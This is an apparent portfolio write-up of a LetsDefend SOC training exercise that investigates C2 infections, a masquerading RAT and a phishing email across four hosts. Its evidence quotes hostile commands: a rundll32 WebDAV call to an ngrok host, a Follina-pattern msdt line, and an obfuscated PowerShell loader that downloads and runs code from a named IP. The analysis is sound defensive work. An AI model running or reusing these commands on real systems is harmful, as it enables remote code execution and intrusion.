# SOC L1 Threat Investigation: Multi-Host EDR Incident Analysis

> **Analyst:** Jonatan Alexander Guerrero Gomez | **Role Target:** SOC L1 / Jr. Cybersecurity Analyst
> **Status:** Investigation Closed | **Severity:** High

### Executive Summary
Hands-on SOC investigation exercise across four independent hosts in the LetsDefend EDR training environment. Investigation identified and contained two confirmed C2 (Command & Control) infections -- one NjRAT-based malware abusing ngrok tunneling infrastructure, and one fileless PowerShell payload delivered via a LOLBin (mshta.exe) -- plus an independent phishing/social engineering case. This project demonstrates L1 competencies: endpoint triage, process/malware analysis, threat intelligence correlation (VirusTotal, WHOIS, JARM, Passive DNS), MITRE ATT&CK mapping, and incident containment, applied with a strict no-assumption verification methodology.

## 1. Case Overview

| Case | Host | Status | Threat Confirmed |
|---|---|---|---|
| 1 | Jack-dev-server | Investigated & Contained | Yes |
| 2 | Desktop-Anderson | Resolved & Contained | Yes |
| 3 | Roberto | Investigated & Contained | Yes (entry vector undetermined) |
| 4 | Robert | Independent appendix case | Social engineering confirmed; malware inconclusive |

## 2. Case 1: Jack-dev-server

**Host:** Jack-dev-server | **IP:** 172.16.17.81 | **OS:** Windows Server 2019 | **Role:** Server

## Detection & Initial Discovery
An initial DNS query was flagged from source 172.16.17.81 to 8.8.8.8 (Google Public DNS), resolving the domain ngrok.io.

**Evidence - DNS Triage**


**Evidence - Endpoint Info**


### Endpoint Investigation
Cross-check against the Endpoint module confirmed this DNS activity originated from Jack-dev-server, not Desktop-Anderson as initially assumed during triage.

**Primary finding -- rundll32.exe:**

`rundll32.exe C:/Windows/system32/davclnt.dll,DavSetCookie 52e9-3-17-146-251.ngrok.io@ssl https://52e9-3-17-146-251.ngrok.io/package`

Abuse of the legitimate DavSetCookie function (WebDAV protocol) via rundll32.exe to force a connection toward the same ngrok subdomain identified in the DNS log.
**Technique:** System Binary Proxy Execution (MITRE T1218.011 - Rundll32)

**Evidence - Process rundll32**


**Secondary findings (independent LOLBin exercises, not part of a coordinated chain):**

- `powershell.exe -enc UwB0AGEAcgB0AC0AUwBsAGUAZQBwACAALQBTAGUAYwBvAG4AZABzACAAMwAwAA==`-> decodes to `Start-Sleep -Seconds 30`. No associated malicious network connection found.
- `msdt.exe /cab C:/Users/LetsDefend/Downloads/hotfix895214.diagcab` → pattern consistent with "Follina" (CVE-2022-30190). No confirmed connection to known C2.

### Threat Intelligence
**C2 IP:** 3.134.39.220 (AS 16509, Amazon.com Inc.) | **VirusTotal Score:** -60 | **ThreatFox:** NjRAT botnet C2, 100% confidence

**Evidence - VirusTotal**


Dozens of dynamic ngrok subdomains resolve to the same IP, each with 0/91 detections individually -- abuse of legitimate infrastructure to evade reputation-based detection.

**Evidence - Passive DNS**


**Evidence - JARM & Certificate**


### Incident Response
**Evidence - Containment**


Host Contained via the Endpoint module.

## 3. Case 2: Desktop-Anderson

**Host:** Desktop-Anderson | **IP:** 172.16.17.54 | **OS:** Windows 10 (64-bit) | **User:** Anderson

### Endpoint Investigation
**Evidence - Endpoint Info**


**Malicious process:** services.exe running from `C:/Users/Anderson/desktop/services.exe` instead of the legitimate `C:/Windows/System32/services.exe`.
**Technique:** Masquerading (MITRE T1036)

### Malware Analysis
**Evidence - Process Strings**

Extracted strings (`go.buildid`, `rat.New`, JSON fields `pid`, `key`, `agent_time`, `rid`, `ports`, `agent_platform`) confirm a Go-compiled RAT with C2 heartbeat/check-in behavior.

### Threat Intelligence
Confirmed against the same C2 as Case 1 (3.134.39.220 -- see Jack-dev-server section for full VirusTotal/ThreatFox/Passive DNS evidence).

### Attack Chain
1. NjRAT malware (disguised as services.exe) running from Anderson's desktop
2. Generates DNS queries toward dynamic ngrok subdomains
3. Ngrok tunnel redirects communication to the attacker's real C2 server
4. Active C2 communication enabling remote control

### Incident Response
**Evidence - Containment**


Host Contained. Endpoint-specific containment was chosen over a full firewall block of ngrok.io, to avoid disrupting legitimate use of the tool by other teams.

### Additional Observation (Low Confidence, Not Confirmed) 
Traffic to 161.35.41.241:4444 (port commonly associated with C2 frameworks) was observed. VirusTotal showed a low score (4/91), a legitimate cloud provider (DigitalOcean), and a valid Let's Encrypt certificate --
signals inconsistent with dedicated malicious infrastructure. Documented as low-confidence observation, not a confirmed second threat.

## 4. Case 3: Roberto

**Host:** Roberto | **IP:** 172.16.17.38 | **OS:** Windows 10 | **User:** roberto

### Indentity Clarification
Cross-verification confirmed "Robert" (172.16.17.189) and "Roberto" (172.16.17.38) are two distinct, independent hosts -- not the same person with inconsistent naming. This hypothesis was tested and rejected via direct query to the Endpoint module. See Case 4 for Robert's independent investigation.

### Entry Vector - Not Determained
Browser history was reviewed for temporal correlation with the confirmed C2 connection. Entries found had no apparent temporal relationship to the incident. The entry vector for Ps1.hta could not be determined with the evidence available -- documented as an honest scope limitation, not a forced finding.

### Execution Chain
**Evidence - Command Line**


Process chain: `explorer.exe` -> `mshta.exe` -> executes `C:/Users/roberto/Desktop/Ps1.hta`
**Technique:** System Binary Proxy Execution (MITRE T1218.005 - Mshta)

Obfuscated PowerShell payload:

    function H1($i){$r = '' ;for ($n = 0; $n -Lt $i.LengtH; $n += 2){$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
    $H2 = (new-object ('{1}{0}{2}' -f'WebCl','net.','ient'));
    $H3 = H1 '446f776e...';
    $H8 = $H2.$H7('http://193.142.58.23/Server.txt');
    iEX $H8

Uses hexadecimal string encoding (custom H1 decoder function), dynamic reconstruction of Net.WebClient, and Invoke-Expression for in-memory (fileless) execution, downloading from `http://193.142.58.23/Server.txt`.

### Network Investigation
**Evidence - Network Connection**


Firewall log confirms outbound connection: 172.16.17.38:42611 -> 193.142.58.23:80, Request URL matching the PowerShell payload exactly.

### Threat Intelligence
**C2 IP:** 193.142.58.23 | **VirusTotal Score:** -55 | **Detections:** Malicious/Phishing/Malware across 9+ vendors

**Evidence - VirusTotal**


**Evidence - JARM & Certificate**


JARM:`2ad2ad16d2ad2ad22c42d42d0000006f254909a73bf62f6b28507e9fb451b5`. SSL certificate self-signed, CN=localhost, expired since 2019 -- classic signal of improvised C2 infrastructure.

**Evidence - WHOIS**


Provider: GREENCLOUDVPS (365 Group LLC), Romania, created 2024-09-13 -- relatively recent infrastructure.

### Incident Response
**Evidence - Containment**


Host Contained -- confirmed C2 connection verified before executing containment.

## 5. Case 4 (Appendix): Robert -- Social Engineering, Malware Inconclusive

**Host:** Robert | **IP:** 172.16.17.189

Investigated independently to test a possible relationship with Roberto -- none found. Included for its social engineering value, not because it connects to the other cases.

### Phishing Email Analysis
**Evidence - Email Header**


**Evidence - Email Body**


| Field | Value |
|---|---|
| From | zirtto@digitalzedi.com | 
| To | robert@letsdefend.io |
| Subject | Questions Creating Delivery Using Open APIs |
| Gateway Action | Allowed |
| Attachment | form.7z (password-protected: infected) |

**Technique identified:** generic business pretext (no false urgency), unverified external sender, and a password-protected compressed attachment -- a known gateway evasion technique, since automated scanners cannot inspect encrypted archive contents.

### Attempted File Verification (Inconclusive)
**Evidence - VirusTotal Download URL**


**Evidence - VirusTotal Hash**


The obtained SHA-256 hash corresponds to the LetsDefend download page HTML, not the actual contents of form.7z. The real archive could not be extracted and hashed within this exercise -- no malware confirmation obtained.

### Conclusion
- Phishing/social engineering technique: confirmed and documented
- Malware inside form.7z: inconclusive -- not confirmed, not ruled out
- Correlation with Cases 1-3: none found

## 6. Methodology Notes
- Never assume a relationship between findings without direct system verification. Two hypotheses were tested and rejected: Anderson/Jack-dev-server as the same host, and Robert/Roberto as the same person.
- Never trust a process name alone -- always verify the real execution path.
- Attackers frequently abuse legitimate, signed Windows binaries (LOLBins) to evade allow-list/deny-list controls.
- Traditional reputation-based detection loses effectiveness against abused legitimate infrastructure (ngrok) or native OS binaries -- behavioral and contextual analysis is essential.
- Containment methodology: always prioritize the most specific, lowest-impact action before escalating.
- When evidence is inconclusive, say so -- an honest "not determined" is more valuable than a forced conclusion.

## 7. Tools & Techniques Used
VirusTotal | Passive DNS | WHOIS | JARM Fingerprint | MITRE ATT&CK Mapping | LetsDefend Endpoint & Network Modules

## 8. MITRE ATT&CK Techniques Observed

| Technique ID |  Name | Case |
|---|---|---|
| T1036 | Masquerading | Anderson |
| T1218.005 | System Binary Proxy Execution: Mshta | Roberto |
| T1218.011 | System Binary Proxy Execution: Rundll32 | Jack-dev-server |
| CVE-2022-30190 | "Follina" pattern (msdt.exe) | Jack-dev-server | 

## About the Analyst

**Jonatan Alexander Guerrero Gomez**
IT/Network Operations Professional (10+ years, HFC/Fiber infrastructure, NOC) transitioning into SOC/Blue Team cybersecurity roles.

- **LinkedIn:** linkedin.com/in/jalexander-sec
- **GitHub:** github.com/JonathanInfinity01
- **Location:** Bogotá, Colombia
